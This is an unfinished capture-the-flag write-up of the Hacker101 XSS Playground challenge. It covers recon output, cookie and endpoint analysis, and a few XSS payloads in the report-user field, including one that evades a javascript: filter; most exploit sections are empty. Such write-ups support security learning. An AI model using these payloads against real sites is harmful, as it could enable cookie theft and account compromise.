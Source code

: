 # XSS Playground by zseano - hacker101 ctf - web (moderate)

As the title implies, this will likely be a page with many xss vulnerabilities.

---

---

So it looks like we need to find 5 XSS types:

- 5 Reflective Cross Site Scripting
- 3 Stored Cross Site Scripting
- 2 DOM-Based Cross Site Scripting
- 1 CSP-Bypass Cross Site Scripting
- 1 use of XSS to leak "something"

## Recon

Burpsuite result for subdirectories:

```
+] Url:                     https://92439067193144fb4615f30930969353.ctf.hacker101.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 315]
/.htaccess            (Status: 403) [Size: 315]
/.htpasswd            (Status: 403) [Size: 315]
/api                  (Status: 301) [Size: 386] [--> http://92439067193144fb4615f30930969353.ctf.hacker101.com/api/]                              
/inc                  (Status: 301) [Size: 386] [--> http://92439067193144fb4615f30930969353.ctf.hacker101.com/inc/]                              
/index.php            (Status: 200) [Size: 12202]
/javascript           (Status: 301) [Size: 393] [--> http://92439067193144fb4615f30930969353.ctf.hacker101.com/javascript/]                       
/server-status        (Status: 403) [Size: 315]

```

None of these enpoints are accessible so we will continue with more manual recon.

#### Cookies

Upon initial page opening, there is a popup telling us the challenge. I also notice that the "want to start again?..." button resets our cookie (default 1 upon login) to 1 and the popup shows again after that.

This functionality first uses a get request for a /logout.php endpoint that redirects us to index.php (home page) and resets our cookies.

Burpsuite analysis:

---

Ok, so there are cookies welcome, rui, cui, that may be of interest further for potential privesc or other session based attacks.

#### Feedback option

There is a green feedback button to leave zseano feedback for his blog, this is handled at the /api/feedback.php endpoint. 

When I enter "testing" for the feedback submission, I look at burp and see that the "testing" is encoded and sent to the endpoint as "dGVzdGluZwo=". This is base64. So whatever we send as feedback is first encoded as base64.

Also, after submitting our feedback, we are instantly redirected to the index.php endpoint but with a msg parameter:

```
GET /index.php?msg=Thanks,%20your%20feedback%20has%20been%20received.%20We%20appreciate%20you%20sharing%20your%20feedback. HTTP/2
```

So based on this, it looks like we have two xss attack vectors: the feedback box and the msg parameter.

#### Report User

---

The report user button also presents another attack vector for xss.

The request and response:

---

From here we learn that the RUI cookie corresponds to the report user function, so CUI may be "create user" or something with user for the U portion.

Making another report changes the rui to a new value.

We also have another parameter "act" for the action.php endpoint that uses report for the report user function, this parameter is another avenue for exploration.


#### Commenting

We can also leave comments:

---

The request and response:

---

The comment action also uses the action.php endpoint and act parameter but instead the value is "comment" not report. Also a cookie is set for CUI so the CUI is likely "comment user id" and RUI is likely "report user id".

Adding another comment replaces the old one and gives us a new cui cookie. However when I use the previous CUI value the old comment is loaded on the browser.

#### Other API endpoints

Exploring the custom.js source, there are also other actions we can perform as parameters tagged to the action.php endpoint:

- getemail
- editbio

For the editbio function, I test with burpsuite and am able to change the bio for zseano:

change bio and get cookie (PUI) for updated bio request and response:

---

---


## 5 Reflective Cross Site Scripting

## 3 Stored Cross Site Scripting

### Report user

"normal" for "your name"

```
<ul>
	<li>normal — Pending review
		<i class="fas fa-user-clock" aria-hidden="true"></i>
	</li>
</ul>
```

```
\<a+onmouseover%3d"alert(document.cookie)"\>xxs+link\</a\>
```

```
<ul>
	<li>\
		<a>xxs link\ — Pending review
			<i class="fas fa-user-clock" aria-hidden="true">
				</i>
		</a>
	</li>
</ul>
```

When I try "<a></a>" for the name of the reporter, it is entered as valid html to the page.

Let's try some <a> header payloads:

```
<a href="javascript:alert(1)">Click Me</a>
```
this payload properly adds a link button that is clickable but the link is broken the javascript is not run.

```
<a href="#" onclick="alert(document.domain)">Click Me</a>
```
this payload loads a button but nothing happens when clicked - javascript is not working for some reason

Although javascript isn't loading through this vector, by being able to add our own <a> tags, we can redirect users to malicious links of our choosing, i.e. stealing cookie information. So far we have an open redirect vulnerability at the report user function.

Trying more <a> tag based XSS payloads, I come across one that bypasses the application filtering out javascript by adding spaces and meta chars before the JS:

```
<a href=" &#14;  javascript:alert('XSS');">Click Me</a>
```
---

## 2 DOM-Based Cross Site Scripting

## 1 CSP-Bypass Cross Site Scripting

## 1 use of XSS to leak "something"


## References

- Intigriti - "how to search for DOM-Based XSS!" youtube video
- https://portswigger.net/web-security/cross-site-scripting/reflected
- https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
